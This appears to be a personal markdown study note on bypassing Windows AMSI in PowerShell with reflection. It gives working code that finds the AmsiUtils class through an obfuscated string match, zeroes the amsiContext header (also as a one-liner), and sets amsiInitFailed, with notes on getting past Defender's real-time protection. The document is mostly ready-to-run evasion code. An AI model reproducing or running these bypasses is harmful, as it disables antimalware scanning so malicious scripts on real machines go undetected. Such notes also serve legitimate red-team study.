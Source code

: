 ![](Images/07-Frida-Bypass-AmsiScanner.png)


### Bypassing AMSI with Reflection in Powershell

- Windows Defender will cause a block when obtaining a reference to a class if one is including the AmsiUtils string.
- Strategy is to search for AmsiUtils using `GetTypes` and searching for the string "iUtils"
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```
- PowerShell stores information about AMSI in managed code inside the _System.Management.Automation.AmsiUtils_ class

##### Overwrite the amsiContext header with zeros:
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}
$g=$f.GetValue($null)
[IntPtr]$ptr=$g
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
- this will force AmsiOpenSession to error out
- *Note:* had to run this 3-4 times on Win10 to get the header overwritten with zeros (was flagged by Defender...Real Time protection was *On*)
- one-liner:
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
- Another amsi bypass using amsiInitFailed (Win10...errors on Win11 arm)
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```
